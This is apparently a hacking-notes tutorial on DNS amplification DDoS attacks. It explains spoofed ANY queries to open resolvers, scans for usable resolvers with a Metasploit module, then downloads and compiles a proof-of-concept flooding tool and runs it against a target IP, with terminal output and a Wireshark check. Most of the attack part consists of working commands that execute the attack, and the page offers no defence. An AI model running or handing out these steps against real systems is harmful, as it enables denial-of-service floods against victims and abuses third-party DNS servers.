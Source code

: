 # What is DNS Traffic Amplification?
A DNS (Traffic) Amplificaton attack is a popular form of a distributed denial of service (DDoS) attack, which abuses open DNS resolvers to flood a target system with DNS response traffic. It's called an *amplification* attack because it uses DNS responses to upscale the size of the data sent to the victim.

# How does it work?
An attacker sends a DNS name lookup to an open resolver with the source IP spoofed to be the victim's IP address. That way, any response traffic would be sent to the victim and not the attacker. The requests submitted by the attacker usually aim to query for as much information as possible in order to maximise the amplification effect. In most cases, the queries sent are of type `ANY` which requests all known information about a particular DNS zone. Using a botnet, it's easy to create immense amounts of traffic. It is also rather difficult to protect against these attacks because the traffic is coming from legitimate sources - real DNS servers.

## Conducting a DNS Traffic Amplification Attack
### Testing a DNS server for attack surface
We should first check if a DNS Traffic Amplification is possible and if it's viable. We can do this through [Metasploit]() using the module `auxiliary/scanner/dns/dns_amp`.

![](Resources/Images/msf6-dns-amp.png)

In the `RHOSTS` you need to put the IP of the name server you want to test. *This module will tell you if a name server can be used in an amplification attack but won't actually execute the attack.*

Run the scanner:

![](Resources/Images/msf6-dns-amp-sc-run.png)

### Executing the attack
A simple tool is available only as a proof of concept [here](https://github.com/rodarima/lsi/blob/master/entrega/p2/dnsdrdos.c). You will need to download and then compile it:
```bash
wget https://raw.githubusercontent.com/rodarima/lsi/master/entrega/p2/dnsdrdos.c
```
```bash
gcc -o dnsdrdos dnsdrdos.c -Wall -ansi
```
```bash
┌──(cr0mll@kali)-[~/MHN/DNS]-[]
└─$ wget https://raw.githubusercontent.com/rodarima/lsi/master/entrega/p2/dnsdrdos.c
--2021-09-21 13:01:11--  https://raw.githubusercontent.com/rodarima/lsi/master/entrega/p2/dnsdrdos.c
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.109.133, 185.199.111.133, 185.199.110.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.109.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 15109 (15K) [text/plain]
Saving to: ‘dnsdrdos.c’

dnsdrdos.c                                                  100%[========================================================================================================================================>]  14.75K  --.-KB/s    in 0.001s  

2021-09-21 13:01:11 (17.9 MB/s) - ‘dnsdrdos.c’ saved [15109/15109]

┌──(cr0mll@kali)-[~/MHN/DNS]-[]
└─$ gcc -o dnsdrdos dnsdrdos.c -Wall -ansi
```

Now, create a file containing the IP's of each DNS server you want to use in the attack (only one IP per line). Use the following syntax to run the attack:
```bash
sudo ./dnsdrdos -f <dns servers file> -s <target IP> -d <domain> -l <number of loops through the list>
```
```bash
┌──(cr0mll@kali)-[~/MHN/DNS]-[]
└─$ sudo ./dnsdrdos -f dns_servers -s 192.168.129.2 -d nsa.gov -l 30
-----------------------------------------------    
dnsdrdos - by noptrix - http://www.noptrix.net/    
-----------------------------------------------

┌──(cr0mll@kali)-[~/MHN/DNS]-[]
└─$
```

The output may be empty, but the packets were sent. You can verify this with `wireshark`:

![](Resources/Images/dnsdrdos-wireshark.png)
